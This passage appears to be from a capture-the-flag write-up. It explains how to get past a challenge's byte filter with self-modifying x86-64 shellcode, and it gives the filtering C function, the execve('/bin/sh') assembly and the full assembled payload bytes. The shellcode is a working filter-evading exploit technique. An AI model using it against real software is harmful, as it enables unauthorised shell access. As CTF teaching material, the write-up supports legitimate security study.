 ### syscall, syscalr

Here we need an auto modifying shellcode, since the only obstacle to executing our exploit is that we cannot give `\x0f` or `\x05` in input to the `read` otherwise the program would exit:

```c
void get_shellcode(char *buffer){
  int i = 0;
  printf("Send shellcode plz?\n");
  read(0, buffer, 1000);
  for (i = 0; i < 1000; i++){
      if ((buffer[i] == 0xcd || buffer[i] == 0x80) || (buffer[i] == 0x0f || buffer[i] == 0x05)){
          printf("Nonono!\n");
          exit(-1);
      }
  }
}
```

The strategy here is to make the shell code increment the content of the instruction pointer. This means that when the code of the challenge is checked after the read, the incriminated bytes are not found, but when the shellcode is acually executed the final code will contain the opcodes for a `syscall`. Here's the assembly:

```assembly
mov rbx, 0x0068732f6e69622f
push rbx
mov rdi, rsp
xor rbx, rbx
push rbx
mov rsi, rsp
mov rdx, rsp
mov rax, 0x3b
mov rbx, 0x101
add qword ptr [rip+0x0], rbx
syscall
```

Here we make the code increment by 257 the last two bytes of itself:

```shell
>>> 0x0f05 - 0x0e04
257
```

And then when we get the assembled code:

```
"\x48\xBB\x2F\x62\x69\x6E\x2F\x73\x68\x00\x53\x48\x89\xE7\x48\x31\xDB\x53\x48\x89\xE6\x48\x89\xE2\x48\xC7\xC0\x3B\x00\x00\x00\x48\xC7\xC3\x01\x01\x00\x00\x48\x01\x1D\x00\x00\x00\x00\x0F\x05"
```

We can manually swap the last two bytes:

```
"\x48\xBB\x2F\x62\x69\x6E\x2F\x73\x68\x00\x53\x48\x89\xE7\x48\x31\xDB\x53\x48\x89\xE6\x48\x89\xE2\x48\xC7\xC0\x3B\x00\x00\x00\x48\xC7\xC3\x01\x01\x00\x00\x48\x01\x1D\x00\x00\x00\x00\x0E\x04"
```
